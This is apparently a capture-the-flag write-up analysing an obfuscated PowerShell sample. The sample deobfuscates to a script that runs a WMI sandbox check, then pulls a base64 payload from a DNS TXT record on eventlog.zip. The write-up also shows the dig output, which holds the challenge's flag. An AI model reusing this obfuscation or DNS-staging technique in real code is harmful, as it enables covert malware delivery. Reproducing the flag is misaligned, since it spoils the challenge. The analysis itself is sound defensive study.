 ```
(('. ( ZT6ENv:CoMSpEc[4,24,'+'25]-joinhx6hx6)( a6T ZT6( Set-variaBle hx6OfShx6 hx6hx6)a6T+ ( [StriNg'+'] [rEGeX]::mAtcheS( a6T ))421]RAhC[,hx6fKIhx6eCALPeR-  93]RAhC[,)89]RAhC[+84]RAhC[+98]RAhC[( EcalPeRC-  63]RAhC[,hx6kwlhx6EcalPeRC-  )hx6)bhx6+hx60Yb0Yhx6+hx6niOj-]52,hx6+hx642,hx6+'+'hx64[cehx6+hx6phx6+hx6SMoC:Vnhx6+hx6ekwl ( hx6+hx6. fKI ) (DnEOTDAhx6+hx6ehx6+hx6r.)} ) hx6+'+'hx6iicsA:hx6+hx6:]GnidOcNhx6+hx6e.hx6+hx6Thx6+hx6xethx6+hx6.hx6+hx6METsys[hx6+hx6 ,_kwhx6+h'+'x6l (REDhx6+hx6AeRmaertS.o'+'Ihx6+hx6 thx6+hx6Chx6'+'+hx6ejbO-Wh'+'x6+hx6En { HCaERoFhx6+hx6fKI) sSERpM'+'oCehx6+hx'+'6dhx6+hx6::hx6+hx6]'+'edOMhx6+hx6'+'nOisSErPMochx6+hx6.NoISSerhx6+hx6pMOc.oi[, ) b'+'0Yhx6+hx6==wDyD4p+S'+'s/l/hx6+hx6i+5GtatJKyfNjOhx6+'+'hx63hx6+hx63hx6+hx64Vhx6+hx6vj6wRyRXe1xy1pB0hx6+hx6AXVLMgOwYhx6+hx6//hx6+hx6Womhx6+hx6z'+'zUhx6+hx6tBhx6+hx6sx/ie0rVZ7hx6+hx6xcLiowWMGEVjk7JMfxVmuszhx6+hx6OT3XkKu9TvOsrhx6+hx6bbhx6+hx6cbhx6+hx6GyZ6c/gYhx6+hx6Npilhx6+hx6BK7x5hx6+hx6Plchx6+hx68qUyOhBYhx6+hx6VecjNLW42YjM8SwtAhx6+hx6aR8Ihx6+hx6Ohx6+hx6whx6+hx6mhx6+hx66hx6+hx6UwWNmWzCw'+'hx6+hx6VrShx6+hx6r7Ihx6+hx6T2hx6+hx6k6Mj1Muhx6+hx6Khx6+hx6T'+'/oRhx6+hx6O5BKK8R3NhDhx6+hx6om2Ahx6+hx6GYphx6+hx6yahx6+hx6TaNg8DAneNoeSjhx6+h'+'x6ugkTBFTcCPaSH0QjpFywhx6+'+'hx6aQyhx'+'6+hx6HtPUG'+'hx'+'6+hx6DL0BK3hx6+h'+'x6lClrHAvhx6+h'+'x64GOpVKhx6+hx6UNhx6+hx6mGzIDeraEvlpc'+'kC9EGhx6+hx6gIaf96jSmShx6'+'+hx6Mhhx6+hx6hhx6+hx6RfI72hx6+hx6oHzUkDsZoT5hx6+hx6nhx6+hx6c7MD8W31Xq'+'Khx6+hx6d4dbthx6+hx6bth1RdSigEaEhx6+hx6JNERMLUxV'+'hx6+hx6ME4PJtUhx6+hx6tSIJUZfZhx6+hx6EEhx6+hx6Ahx6+hx6JsTdDZNbhx6+hx60Y(gniRTS4hx6+hx66esh'+'x6+hx6aBmoRF::]tRevnOhx6+hx6C[]MAertsYrOmeM.Oi.mETSYs[ (MaErhx6+hx6thx6+hx6sEtALfeD.NOhx6+hx6IsS'+'erPmo'+'c.OI.mehx6+hx6TsYShx6'+'+hx6 hx6+hx6 tCejbO-WEhx6+hx6n ( hx6(((no'+'IsseRpX'+'e-ekovni a6T,hx6.hx6,hx6RightToLEFthx6 ) RYcforEach{ZT6_ })+a6T ZT6( sV hx6oFshx6 hx6 hx6)a6T ) ')  -cREpLACE ([cHAr]90+[cHAr]84+[cHAr]54),[cHAr]36 -rEPlAce'a6T',[cHAr]34  -rEPlAce  'RYc',[cHAr]124 -cREpLACE  ([cHAr]104+[cHAr]120+[cHAr]54),[cHAr]39) |. ( $vERboSEpreFeRenCe.tOStrING()[1,3]+'x'-JOin'')
```

This looks like obfuscated powershell based on the presence of some noticable strings such as `CoMSpEc`, `vERboSEpreFeRenCe`, or `[rEGeX]::mAtcheS`. I used a tool called [PowerDecode](https://github.com/Malandrone/PowerDecode) to attempt to deobfuscate it and got the following script:

```
try {
    $TGM8A = Get-WmiObject MSAcpi_ThermalZoneTemperature -Namespace "root/wmi" -ErrorAction 'silentlycontinue'; 
    if ($error.Count -eq 0) { 
        $5GMLW = (Resolve-DnsName eventlog.zip -Type txt | ForEach-Object { $_.Strings }); 
        if ($5GMLW -match '^[-A-Za-z0-9+/]*={0,3}$') { 
            [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($5GMLW)) | Write-Host 
        } 
    } 
    } catch { }
```

It did an amazing job, right? Anyway, it looks to be querying a TXT DNS record from the domain `eventlog.zip` (yes, .zip is now a valid TLD!). I ran a dig query to see what was there:

```
$ dig -t TXT eventlog.zip

; <<>> DiG 9.18.12-0ubuntu0.22.04.3-Ubuntu <<>> -t TXT eventlog.zip
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 9491
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 1232
;; QUESTION SECTION:
;eventlog.zip.			IN	TXT

;; ANSWER SECTION:
eventlog.zip.		3600	IN	TXT	"U3RhcnQtUHJvY2VzcyAiaHR0cHM6Ly95b3V0dS5iZS81NjFubmQ5RWJzcz90PTE2IgojZmxhZ3s0MDk1MzczNDdjMmZhZTAxZWY5ODI2YzI1MDZhYzY2MH0jCg=="
```
